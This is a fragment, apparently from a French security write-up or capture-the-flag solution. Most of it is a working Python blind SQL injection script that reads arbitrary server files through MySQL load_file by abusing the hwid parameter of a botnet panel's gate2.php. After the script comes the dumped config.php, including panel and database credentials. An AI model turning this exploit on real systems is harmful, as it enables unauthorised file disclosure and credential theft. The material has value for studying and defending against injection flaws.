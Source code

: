 ```python
import requests
import sys

if len(sys.argv) < 2:
    print "Usage: {0} /path/to/file".format(sys.argv[1])
    sys.exit()

alphabet = " \r\n;.$=eariotnslcudpmhgbfywkvxzjq\"'\t(){}[]EARIOTNSLCUDPMHGBFYWKVXZJQ_!#%&*+,-/0123456789><?@\\:"
URL = (
    "http://192.168.1.100/gate2.php?"
    "windows=Windows&country=US&hwid=1%27%20and%20"
    "ord(mid(load_file(0x{0}),{1},1))={2}"
    "%20and%20%271%27=%271&connection=0&version=100&btc=all&sysinfo=info"
    )

hex_fname = sys.argv[1].encode("hex_codec")
sess = requests.session()
i = 1
nb_unknown = 0
while True:
    found = False
    for c in alphabet:
        pos = str(i)
        char = str(ord(c))
        r = sess.get(URL.format(hex_fname, pos, char))
        if len(r.content):
            sys.stdout.write(c)
            sys.stdout.flush()
            found = True
            nb_unknown = 0
            break
    i += 1
    if not found:
        sys.stdout.write('`')
        sys.stdout.flush()
        nb_unknown += 1

    if nb_unknown == 3:
        break
```

Pour le fichier */var/www/config.php* on obtient (avec beaucoup de patience) :  

```php
<?php
//Timezone
date_default_timezone_set('Europe/London'); // VISIT http://www.php.net/manual/en/timezones.php For list of timezones
//Admin Configs
$ADMIN_USER_NAME        = 'botter'; //panel username
$ADMIN_PASSWORD         = 'IF I CAME UP WITH UNIQUE PASSWORDS, I WOULD BE HOME BY NOW'; //panel password
//SQL Configs
$SQL_HOST               = 'localhost'; //db host
$SQL_USER_NAME  = 'root'; //db user
$SQL_PASSWORD   = 'THIS PASSWORD WILL NOT HELP YOU'; //db pass
$SQL_DATABASE   = 'bitbot'; //db name
$SQL_CONNECTION = @mysql_connect($SQL_HOST,$SQL_USER_NAME,$SQL_PASSWORD);
//Panel Configs
$BOT_PAGE_MAX   = '50';
//Mining Configs
$JSONurl = ''; //follow readme
$apitoken = ''; //follow readme
```
